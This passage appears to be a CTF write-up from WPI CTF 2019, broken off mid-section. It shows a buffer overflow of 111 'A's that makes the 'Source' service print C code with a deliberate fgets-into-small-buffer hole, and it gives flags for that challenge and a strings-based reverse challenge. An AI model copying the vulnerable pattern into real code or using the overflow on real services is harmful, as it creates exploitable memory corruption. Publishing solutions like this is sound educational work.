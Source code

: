 Source
--------------
Never had any experience with pwn without having a binary file (Also my first successful pwn challenge), however, I figured it worked out the same way as most binary exploitation did.
When we write a couple of passwords to the file, it always seem to show "Pass auth failed.", and close out of the shell.
![](https://raw.githubusercontent.com/Immobility/CTF/master/wpiCTF/photos/Screenshot%20at%202019-04-16%2015-05-45.png)

However, when we type spam more characters, such as:
```
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```

The only output seems to be "Connection to source.wpictf.xyz closed." So that seemed suspicious, which felt like an overflow error, which shouldn't be too possible if the program is secure.
So I decided to brute-force my way in by determining the right amount of ```A```'s I should be writing until I make my way in, which were 111 A's, or 
```
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```

Which outputs
```
#define _GNU_SOURCE
#include <stdio.h>
#include <unistd.h>

#include <stdlib.h>
#include <string.h>

//compiled with gcc source.c -o source -fno-stack-protector -no-pie
//gcc (Ubuntu 7.3.0-27ubuntu1~18.04) 7.3.0

//flag for source1 is WPI{Typos_are_GrEaT!}
int getpw(void){
        int res = 0;
        char pw[100];

        fgets(pw, 0x100, stdin);
        *strchrnul(pw, '\n') = 0;
        if(!strcmp(pw, getenv("SOURCE1_PW"))) res = 1;
        return res;
}

char *lesscmd[] = {"less", "source.c", 0};
int main(void){
        setenv("LESSSECURE", "1", 1);
        printf("Enter the password to get access to https://www.imdb.com/title/tt0945513/\n");
        if(!getpw()){
                printf("Pasword auth failed\nexiting\n");
                return 1;
        }

        execvp(lesscmd[0], lesscmd);
        return 0
}
```
Thus, our flag is ``` WPI{Typos_are_GrEaT!} ```

-------------

Reverse
-------------

When executing the program, it worked the same way as the ```strings``` command would do. But what if we strings the file?
![](https://raw.githubusercontent.com/Immobility/CTF/master/wpiCTF/photos/Screenshot%20at%202019-04-16%2015-23-47.png)

Ooh!, so our flag is ```WPI{What_do_you_mean_I_SEE_AHH_SKI}```

-------------

jocipher
_____________

After gettubg the required file, that shows ...
